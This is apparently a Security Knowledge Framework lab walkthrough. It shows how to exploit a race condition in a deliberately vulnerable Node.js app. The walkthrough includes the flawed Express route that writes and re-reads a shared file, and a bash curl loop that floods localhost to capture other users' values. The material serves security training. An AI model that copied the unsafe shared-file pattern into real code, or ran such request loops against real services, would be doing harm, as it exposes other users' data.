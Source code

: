# KBID XXX - Race Condition File-Write

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/1.png)

Let's try:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```javascript
app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```javascript
fs.writeFileSync("shared-file.txt", req.params.value);
```

and the response:

```javascript
fs.open("shared-file.txt", "r", (err, fd) => {
  let file = fs.readFileSync("shared-file.txt", "utf8");
  res.setHeader("Content-Type", "text/html", "charset=utf-8");
  res.setHeader("Content-Disposition", "attachment; filename=shared-file.txt");
  res.sendFile(__dirname + "/shared-file.txt");
});
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/4.png)

If we look in the logs we will see:

![](../../.gitbook/assets/nodejs/RaceCondition-File-Write/5.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
